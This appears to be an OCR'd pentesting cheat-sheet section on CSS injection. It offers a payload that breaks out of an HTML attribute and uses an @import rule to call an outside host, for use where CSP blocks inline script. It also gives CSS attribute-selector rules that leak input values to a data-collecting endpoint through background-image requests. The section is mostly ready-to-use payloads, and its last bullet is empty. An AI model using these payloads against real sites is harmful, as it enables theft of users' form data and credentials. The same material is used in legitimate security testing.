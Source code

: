----------------

## CSS Injection

----------------

- THis method is used in a situation where CSP blocks inline javascript and only style tags are allowed.Test it by using an import rule to Burp collaboarator.

```
"><style>@import'//host.com'</style>
```

- Triggering requests with CSS variables
  -  Use css variables as a on/off switch that triggers a conditional request  with background images. As long as your variable is defined with a url() and a fallback that is a valid CSS property value (i.e. "none" for a background image) then you can use this variable to trigger a request by setting the variable:

```html
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```

- Extracting data with CSS(Using attribute selectors):Attribute selectors are an extremely powerful way to extract data. You can use them to check if attributes begin, end or even contain certain characters. Regex usage-:
  
```css
input[value$="a"] {
   --value: url(/collectData?value=1337)
}
input {
   background:var(--value,none);
}
```

- 

----------------
